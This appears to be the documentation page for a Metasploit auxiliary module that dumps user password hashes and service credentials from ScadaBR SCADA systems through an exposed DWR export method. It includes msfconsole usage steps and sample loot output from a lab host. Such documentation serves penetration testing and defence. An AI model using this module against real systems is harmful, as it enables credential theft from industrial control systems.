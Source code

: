 ## Description

  This module retrieves credentials from ScadaBR, including service credentials and unsalted SHA1 password hashes for all users, by invoking the `EmportDwr.createExportData` DWR method of Mango M2M which is exposed to all authenticated users regardless of privilege level.


## Vulnerable Application

  ScadaBR is a SCADA (Supervisory Control and Data Acquisition) system with applications in Process Control and Automation, being developed and distributed using the open source model.

  This module has been tested successfully with ScadaBR versions 1.0 CE and 0.9 on Windows and Ubuntu systems.

  Installers:

  * [Windows Installers](https://sourceforge.net/projects/scadabr/files/Software/Installer%20Win32/)
  * [Linux Installers](https://sourceforge.net/projects/scadabr/files/Software/Linux/)
  * [Tomcat WAR files](https://sourceforge.net/projects/scadabr/files/Software/WAR/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/admin/http/scadabr_credential_dump`
  3. Do: `set rhost [IP]`
  4. Do: `set username [USERNAME]`
  5. Do: `set password [PASSWORD]`
  6. Do: `run`
  7. You should get credentials


## Scenarios

  ```
  [+] 172.16.191.166:8080 Authenticated successfully as 'admin'
  [+] 172.16.191.166:8080 Export successful (4436 bytes)
  [+] Found 5 users
  [*] Found weak credentials (admin:admin)
  [*] Found weak credentials (user:password)
  [*] Found weak credentials (zxcv:zxcv)

  ScadaBR User Credentials
  ========================

   Username  Password  Hash (SHA1)                               Admin  E-mail
   --------  --------  -----------                               -----  ------
   admin     admin     d033e22ae348aeb5660fc2140aec35850c4da997  true   admin@yourMangoDomain.com
   operator            ef0cade28a5696433326749bb57c39104ca33550  false  operator@localhost
   test                86f7e437faa5a7fce15d1ddcb9eaeaea377667b8  false  test@localhost
   user      password  5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8  true   user@localhost
   zxcv      zxcv      9878e362285eb314cfdbaa8ee8c300c285856810  false  zxcv@localhost


  ScadaBR Service Credentials
  ===========================

   Service     Host       Port  Username       Password
   -------     ----       ----  --------       --------
   HTTP proxy  127.0.0.1  8080  proxytestuser  proxytestpass
   SMTP        127.0.0.1  25    smtptestuser   smtptestpass

  [+] Config saved in: /root/.msf4/loot/20170527210941_default_172.16.191.166_scadabr.config_861842.txt
  [*] Auxiliary module execution completed
  ```

